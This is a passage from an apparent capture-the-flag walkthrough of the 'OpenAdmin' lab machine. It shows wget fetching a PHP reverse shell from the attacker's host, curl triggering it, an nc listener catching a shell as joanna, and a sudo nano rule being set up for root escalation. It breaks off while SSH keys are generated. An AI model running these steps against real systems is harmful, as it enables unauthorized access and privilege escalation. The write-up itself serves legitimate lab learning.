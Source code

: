 As the **AssignUserID** above shows, the vhost with document root /var/www/internal is running with joanna's account. This means that this vhost will execute scripts with joanna's permissions

We also see that we can access the vhost at port 52846.

### Getting A Shell

First, let's infiltrate a php payload.

```
jimmy@openadmin:/var/www/internal$ wget http://10.10.X.X:8000/sorryfortheshell.php
--2020-04-10 14:53:18--  http://10.10.X.X:8000/sorryfortheshell.php
Connecting to 10.10.X.X:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5492 (5.4K) [application/octet-stream]
Saving to: ‘sorryfortheshell.php’

sorryfortheshell.php                100%[=================================================================>]   5.36K  --.-KB/s    in 0.001s  

2020-04-10 14:53:18 (3.55 MB/s) - ‘sorryfortheshell.php’ saved [5492/5492]
```

Then, we trigger it.
    
`curl http://127.0.0.1:52846/sorryfortheshell.php`

We receive a connection on our handler.

```
root@kali:~/htb/openadmin# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.10.171] 55872
<SNIP>
/bin/sh: 0: can't access tty; job control turned off
$ whoami
joanna
```

## Abusing Sudo Rights For Privilege Escalation

Run `sudo -l` to list joanna's privilege.

```
/etc/sudoers.d/joanna:joanna ALL=(ALL) NOPASSWD:/bin/nano /opt/priv
```

We can run nano as root (without password), but only for editing a specific file `/opt/priv`.

### Launching Nano

We cannot get nano to run properly in a simple shell. So let's add our SSH key to joanna's account and get a SSH shell.

First, let's generate new keys.

`ssh-keygen -f openadmin`
